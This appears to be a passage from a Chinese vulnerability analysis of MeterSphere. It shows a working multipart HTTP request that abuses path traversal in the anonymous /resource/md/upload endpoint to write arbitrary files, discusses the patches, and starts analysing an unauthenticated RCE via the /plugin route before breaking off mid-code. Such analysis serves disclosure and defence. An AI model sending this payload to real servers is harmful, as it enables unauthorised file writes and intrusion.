 同样是未做任何过滤，直接就进行了函数调用。并且该函数属于`/resource`路由，该路由属于可以匿名访问的路由。

因此可以使用如下格式的payload上传文件：

```Java
POST /resource/md/upload HTTP/1.1
Host: host.com
Content-Type: multipart/form-data;boundary=xxx

--xxx
Content-Disposition: form-data;name="file"; fileName="test"
Content-Type: image/jpeg

123
--xxx
Content-Disposition: form-data;name="request"; fileName="xxx"
Content-Type: application/json

{"id":"../","fileName":"../../tmp/test"}
--xxx--

```

#### 修复补丁

漏洞的issue中提的补丁，修改了允许匿名访问的路由限制，匿名用户无法再使用该功能。

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f54b813a556ed2a9cd6adeac2d7c28d8d6cc9613.png)

### 远程代码执行漏洞

#### 漏洞原理

这个漏洞是安全厂商提交给官方的漏洞，看不到漏洞细节，但是可以在GitHub找到相对应的commit记录。公开的漏洞信息是该漏洞是一个未授权的远程代码执行漏洞，影响v1.16.3及以前的版本，在GitHub的release中可以看到v1.16.4只有一个fix，看起来像是专门为修复这个漏洞升级的版本。

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f9c848555574079a9d163d0f8464a8410406990a.png)

commit标题为

```Java
fix(测试计划): 修复自定义插件安全漏洞及用例模块匹配问题

```

对应着两处代码修改。跟修复漏洞相关的无疑是这一处。

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-0910f09fcc0380a64309b4f00fae9dcde2b67eae.png)

补丁中删除了/plugin/路径的匿名访问。因此漏洞分析着重看这一部分路由的代码逻辑。直接在代码种全局搜索/plugin，很快可以定位到io.metersphere.controller.PluginController，该类处理/plugin路由。其中包含了5种方法，方法不多因此依次分析。

```JavaScript
    @PostMapping("/add")
    public String create(@RequestPart(value = "file", required = false) MultipartFile file) {
        if (file == null) {
            MSException.throwException("上传文件/执行入口为空");
        }
        return pluginService.editPlugin(file);
    }

    @GetMapping("/list")
    public List<PluginDTO> list(String name) {
        return pluginService.list(name);
    }

    @GetMapping("/get/{id}")
    public Plugin get(@PathVariable String id) {
```